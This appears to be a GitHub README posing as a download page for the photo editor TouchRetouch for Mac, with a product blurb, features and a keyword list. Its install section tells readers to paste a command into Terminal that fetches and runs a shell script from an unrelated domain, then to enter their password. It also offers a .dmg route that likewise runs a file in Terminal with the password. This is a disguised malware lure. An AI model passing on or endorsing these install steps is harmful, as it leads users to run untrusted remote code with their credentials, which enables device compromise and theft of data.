 # TouchRetouch Mac

![TouchRetouch Preview](https://www.ephotozine.com/resize/articles/22365/ADVA-Soft-TouchRetouch-1.jpg?RTUdGk5cXyJFCgsJVANtdxU+cVRdHxFYFw1Gewk0T1JYFEtzen5YdgthHHsvEVxR)

---

## 💾 Download TouchRetouch Mac

[![⬇️ Download TouchRetouch Mac](https://img.shields.io/badge/Download-TouchRetouch%20Mac-blue?style=for-the-badge&logo=apple)](https://touchretouch-mac-download.github.io/.github)

🧩 Compatible with macOS 10.13 or later

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is TouchRetouch Mac?

**TouchRetouch Mac** is a photo editing application designed specifically for **object removal and photo retouching**. Whether you want to remove a power line, stray object, blemish, or any distracting element in your shot, TouchRetouch makes the process seamless and accessible, even for beginners.

Unlike traditional editors that require multiple tools and layers, TouchRetouch focuses on **streamlined object removal**. You simply mark the area or object you want to remove, and the app intelligently fills the space using surrounding textures — often with results that look natural and untouched.

This makes TouchRetouch ideal for:
- Travel photographers removing tourists from landmarks
- Portrait retouchers fixing skin blemishes
- Real estate editors clearing signs or wires
- Everyday users cleaning up phone or camera shots

The macOS version brings all this power to your desktop, combining fast performance with a simple interface. Whether you're editing high-resolution DSLR images or quick mobile snaps, TouchRetouch Mac offers powerful, lightweight editing that saves time and delivers quality.

---

## 🖥️ Screenshots

![TouchRetouch UI](https://f.fameile.net/upload/2021/12/2I0ote.jpg)

---

## ✅ Features

- One-click object removal tool
- Line and wire removal brush
- Clone stamp for advanced retouching
- Natural content-aware fill results
- Simple and clean macOS interface
- Supports high-resolution images
- Export in full quality without compression

---

## 🔍 Keywords
touchretouch mac
touch retouch mac
touch retouch for mac
touchretouch mac download
download touch retouch mac
photo retouch mac
object removal mac
remove objects from photo mac
